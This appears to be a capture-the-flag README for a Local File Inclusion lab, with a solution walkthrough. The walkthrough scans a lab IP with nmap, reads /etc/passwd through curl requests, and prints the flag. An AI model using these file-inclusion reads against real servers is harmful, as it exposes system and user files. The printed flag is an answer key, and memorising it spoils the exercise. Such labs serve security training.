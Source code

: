 # Famous Quotes

Simple challenge for Local File Inclusion

### Task

Find an HTTP server at IP address `172.20.0.10` and try to exploit naivity of the programmer to find a flag

## How to solve
<details>
  <summary>Click to reveal how to solve steps</summary>


1. Use `nmap` to find opened ports:
```bash
root@hackerlab:~# nmap -sS -n -v 172.20.0.10
...
PORT     STATE SERVICE
8080/tcp open  http-proxy
MAC Address: 02:42:AC:14:00:0A (Unknown)
...
```

2. Discover opened port 8080 and try to manipulate with the server functionality. Eventually you might discover LFI vuilnerability and discover a user named bob in the `/etc/passwd` file. And finally, bob has a flag in his home directory:
```bash
root@hackerlab:~# curl 172.20.0.10:8080
Please specify a quote file to read in the URL path. Options are: ['asimov.txt', 'einstein.txt', 'jobs.txt']

root@hackerlab:~# curl 172.20.0.10:8080/asimov.txt
The true delight is in the finding out rather than in the knowing.

root@hackerlab:~# curl 172.20.0.10:8080/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
bob:x:1000:1000::/home/bob:/bin/bash

root@hackerlab:~# curl 172.20.0.10:8080/home/bob/flag.txt
bsy{YouMaySayIamADreamerButIamNotTheOnlyOne}
```


</details>

## Testing

The script [auto-solve.sh](./auto-solve.sh) automatically verifies that the challenge can be solved.
